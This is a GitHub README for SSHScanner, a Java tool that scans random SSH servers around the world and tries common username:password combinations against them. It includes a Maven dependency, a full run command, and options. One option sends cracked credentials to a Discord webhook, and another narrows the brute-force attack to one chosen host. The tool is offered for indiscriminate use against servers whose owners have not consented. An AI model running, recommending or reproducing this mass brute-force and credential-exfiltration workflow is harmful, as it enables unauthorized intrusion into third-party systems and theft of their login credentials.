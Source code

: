 ## Description
This tool scans random SSH servers around the world and it tests the most used passwords

## Developers

You can reuse SSHScanner but make sure you comply with the [LICENSE](https://github.com/thisisnzed/SSHScanner/blob/main/LICENSE).

### Maven

```xml
<dependencies>
    <dependency>
        <groupId>com.thisisnzed</groupId>
        <artifactId>SSHScanner</artifactId>
        <version>1.0.1-SNAPSHOT</version>
    </dependency>
</dependencies>
```

## Lib

* **JSch** : http://www.jcraft.com/jsch/ 

## Usage

* I. Download the [latest release](https://github.com/thisisnzed/SSHScanner/releases) of SSHScanner
* II. Run the program with **java -jar SSHScanner.jar -combo combo.txt -threads 1 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose true**

## Arguments

Note: Each argument is optional

* **-combo <path>** | File containing all the "user:password" that the program will test for each host (default: combo.txt)
* **-threads <int>** | Number of threads launched (default: 1)
* **-port <int>** | Port that will be tested for each host (default: 22)
* **-timeout <int>** | Time (in ms) before the program marks a server as unavailable (default: 6000)
* **-webhook <url>** | Discord webhook where credentials will be sent (default: "")
* **-verbose <boolean>** | Whether or not to display failed attempts on the console (default: true)
* **-host <IP address>** | **WARNING: Only for bruteforce specific host** | Use this parameter ONLY if you want to perform a bruteforce attack on a specific SSH server - if you use this parameter you only will attack the requested server and not millions of random servers around the world (default: "")
